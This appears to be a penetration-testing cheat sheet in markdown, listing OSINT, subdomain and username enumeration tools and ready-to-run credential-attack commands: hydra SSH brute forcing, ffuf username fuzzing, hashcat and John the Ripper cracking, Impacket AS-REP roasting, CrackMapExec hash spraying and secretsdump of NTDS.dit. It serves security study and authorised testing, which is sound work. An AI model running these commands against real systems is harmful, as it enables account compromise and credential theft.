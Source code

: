 ## Image OSINT
- `exiftool`
- google image search - reverse-search images

## Website
  - `whois`
  - [BuiltWith](https://builtwith.com)
  - [crt.sh](https://crt.sh/)
  - [Shodan](https://shodan.io)
  - [Wayback Machine](https://web.archive.org/)
  - [Wappalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
	    
## Subdomains:
  - `sublist3r`
  - **theHarvester**
    - `theHarvester -d website.com -b all -l 500`
        - limits to 500 searches
  - `recon.ng`
  - [Subfinder](https://github.com/projectdiscovery/subfinder)
  - [Assetfinder](https://github.com/tomnomnom/assetfinder)
  - [httprobe](https://github.com/tomnomnom/httprobe)
  - [Amass](https://github.com/OWASP/Amass)
  - [crt.sh](https://crt.sh/)

## Email Addresses
- **Username enumeration**
  - Go to the sites, find names
  - **username-anarchy**
  - `./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt`
  - **theHarvester**
    - `theHarvester -d url.com -b all -l 500` 
    - `whatsmyname -u username`

## Passwords
  - **Dehashed**
  - [HaveIbeenpwnd](https://haveibeenpwned.com/)
  - `cewl` - pulls words from a site that can be used as a password
  - **Burpsuite** to intercept and attempt logins
		- `python-exrex` permutates common default PWs schemas 
  - **Brute force** 
    - **hydra**
	    - `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://IP -t 4 -V
		- 4 is 4 threads`
		  - -V is for verbosity
    - **FUFF**
      - `ffuf -w /usr/share/wordlists/seclists/SecLists-master/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.10/loginportallocation/signup -mr "error message such as username already exists"`
      	- -x is the request method
	      - this will normally be a GET request but can be a POST request
      	- -d is the data were sending
	      - ie username, email, password and cpassword
		    - if were only getting the username here we put FUZZ after username and x for the others
        - -H adds headers to the request
	  	- -mr adds the error info
    	- -u is the url location
    	- can add >> validusernames.txt at the end for it to put them in a file for you


## Hash Cracking
- **Hash Identifier**
	- hash-identifier - built in Kali tool to check hashed passwords
- **hashcat** 
	- `hashcat -m 0 {hash file} /usr/share/wordlists/rockyou.txt`
- **Johntheripper**
	- `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
	- Can save the hash into a file called hash and use John the Ripper with rockyou
	- `john hash --format=krb5asrep`
	- update above to be whatever hash format, this is for kerberos
	- another john example:
		- `john hash --fork=4 -w=/home/user/rockyou.txt`
		- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
- **Check out account lockout policy:**
	- `ldapsearch -D 'DOMAIN\support' -w '#00^Domain' -p 389 -h IP - b "dc=domain,dc=local" -s sub "*" | grep lockoutThreshold`
	- lockout threshold of 0 means unlimited
- **Get Hash:**
	- Impacket can be used to request a TGT
		- `GetNPUsers.py domain.local/username -dc-ip IP -no-pass`
 		- `impacket-GetNPUsers -no-pass -usersfile usernames.txt -dc-ip IP domainname/`
- **With Hashes:** 
	- Spray with crackmap:
		- `cme smb IP -u users -H hashes`
		- this will spit out any working username: password
- **Secrets dump:**
	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`

